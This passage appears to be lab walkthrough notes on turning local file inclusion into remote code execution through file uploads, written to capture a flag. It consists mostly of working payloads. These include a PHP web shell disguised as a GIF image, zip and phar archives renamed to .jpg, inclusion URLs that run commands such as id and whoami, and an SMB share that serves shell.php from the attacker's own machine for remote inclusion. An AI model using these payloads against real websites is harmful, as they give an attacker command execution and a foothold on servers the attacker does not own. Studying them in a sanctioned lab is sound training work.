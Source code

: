 ```
impacket-smbserver -smb2support share $(pwd)
```

```
http://<SERVER_IP>:<PORT>/index.php?language=\\<OUR_IP>\share\shell.php&cmd=whoami
```

## LFI and File Uploads

> Use any of the techniques covered in this section to gain RCE and read the flag at /

### Image Upload:

Create a malicious image containing a PHP web shell code:

```
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```

Upload the malicious GIF file through the profile picture upload feature. After the upload is successful, navigate to the main page and apply the local file inclusion techniques covered in previous modules to execute the malicious shell.gif file.

```
http://{TARGET_IP}{TARGET_PORT}/index.php?language=./profile_images/shell.gif&cmd=id
```

### Zip Upload

Create malicious zip file and use php zip wrapper to access the RCE.

```
echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```

```
http://{TARGET_IP}{TARGET_PORT}/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id
```

### Phar Upload

Create a new php file with below script:

```
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

Compile the script into a phar file and rename it to shell.jpg as follows:

```
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```
